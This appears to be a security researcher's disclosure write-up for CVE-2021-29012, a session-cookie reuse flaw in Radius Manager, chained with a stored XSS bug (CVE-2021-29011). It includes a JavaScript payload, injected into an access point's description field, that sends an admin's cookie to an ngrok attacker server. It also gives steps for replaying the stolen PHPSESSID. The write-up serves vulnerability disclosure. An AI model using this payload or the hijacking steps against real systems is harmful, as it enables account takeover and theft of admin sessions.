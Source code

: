 # CVE-2021-29012 (Broken Session Management)

When an admin user logs in, their session cookie is given & doesn't expire upon logging out. Instead the session cookie is temporarily disabled until the admin logs in again. The session cookie doesn't change so if an attacker manages to steal a session cookie, then they can simply reuse it when the admin is logged in again and impersonate them. And if they aren't successful at logging in the first time due to the admin being logged out, they can simply keep trying until the admin is logged in again and get a successful login.

Successful exploitation requires that you have access to the Radius Management web interface and be able to make requests so you can simply change out the session cookie header when making HTTP requests.

This vulnerability can be exploited in order to elevate privileges when chained together with CVE-2021-29011 in order to gain the session cookie of another user with elevated privileges.

## Demo Videos

We simply swap an admin's cookie for a low privileged user's cookie and are able to assume the privileges of the admin as shown here:

[Dropbox - session-impersonation-2021-03-19_23.11.19.mkv](https://www.dropbox.com/s/9ootf6udj761bbh/session-impersonation-2021-03-19_23.11.19.mkv?dl=0)

The overall process that I went through to exploit this is:

1. Create an account with no privileges
  
2. Grab the admin session cookie
  
3. Make a request that requires privileges such as creating a user using the low privilege account
  
4. Request is denied due to no privileges
  
5. Resend the request but this time modify the cookie parameter so that it's replaced with the admin session cookie
  
6. Request is successful & we can now make requests on behalf of the admin user while the admin user is logged in.


# Chaining CVEs Together

This section details chaining together CVE-2021-29012 & CVE-2021-29011 in order to take an admin's session cookie & perform requests on their behalf.

There are multiple fields that are vulnerable to cross-site scripting but I could only find 1 field (the access point description field) that could fit an entire script for extracting a cookie & sending it off to an attacker for use in session hijacking.

## Tools Used:

1. Ngrok & Python's simple HTTP server to simulate an attacker's server receiving the session cookie

## Proof of Concept

Once we place our script inside the Access Point's description, anytime a user lists the available access points, we will receive their session cookie on our server & be able to impersonate them.

### Cross Site Scripting (XSS)

We first need to inject our script into an input field so that whenever an admin logs in & lists the available access points, their cookie is sent to us (the attacker in this scenario).

The script used that will be injected is:

```javascript
<script> 
var xl = new XMLHttpRequest(); 
const url = 'http://dat.ngrok.io/cookie=' + document.cookie; 
xl.open("GET", url, false); xl.send();alert(xl.responseText);
</script>
```

where dat is the subdomain generated by ngrok. And we will be injecting it into the description field when adding/editing an access point.

After listing the available access points as an admin, this is what an attacker would see:

![](./imgs/img3.png)

As you can see, we have everything we need in order to impersonate the admin user and this was achieved just by having them list the available access points. This of course requires that an attacker already have an account registered on the Radius Manager with sufficient privileges to add/edit an access point.

### Broken Session Management Exploitation

The next stage of the attack would be abusing the broken session management in order to make requests on someone else's behalf without their interaction. This simply involves intercepting the request exchanging the cookie parameter with the stolen one:

1. Make the original request for adding a user from an account with low privileges & you will get a response that looks like this:

![](./imgs/img.png)

2. Now do repeat step 1 & sniff the request out with Firefox's network monitoring tool (inspect element > network):

![](./imgs/img2.png)

3. Right-click the request & hit *Edit and Resend* & change the *Cookie: PHPSESSID* value for the stolen cookie & change the *login_admin* value for the value provided by the stolen session cookie. After doing so & resending the request, now we can make requests as the admin user:

![](./imgs/img5.png)

* **NOTE: This requires the admin to be currently logged in. If the admin is logged out then the session cookie is invalid until they login again. But the session cookie does not change once they log out. It stays the same.**
